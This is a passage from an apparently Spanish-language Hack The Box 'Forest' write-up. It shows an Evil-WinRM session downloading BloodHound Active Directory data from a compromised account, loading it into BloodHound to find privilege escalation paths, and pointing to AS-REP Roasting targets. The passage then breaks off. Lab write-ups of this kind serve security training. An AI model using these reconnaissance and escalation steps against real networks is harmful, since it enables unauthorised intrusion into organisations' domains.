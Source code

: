 Una vez que obtengamos el **archivo ZIP**, podemos descargarlo desde la sesión de **Evil-WinRM**:
```batch
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents\BHbrsk> download 20241010125743_BloodHound.zip BH.zip
                                        
Info: Downloading C:\Users\svc-alfresco\Documents\BHbrsk\20241010125743_BloodHound.zip to BH.zip
                                        
Info: Download successful!
```

Carguemos el **archivo ZIP** resultante al **BloodHound**:

<p align="center">
<img src="/assets/images/htb-writeup-forest/Captura4.png">
</p>

Muy bien, de aquí podemos encontrar algunas formas en las que podemos escalar privilegios, dependiendo de lo que puede hacer nuestro usuario.

Por ejemplo, aquí podemos ver las cuentas que son vulnerables al **AS-REP Roasting**:

<p align="center">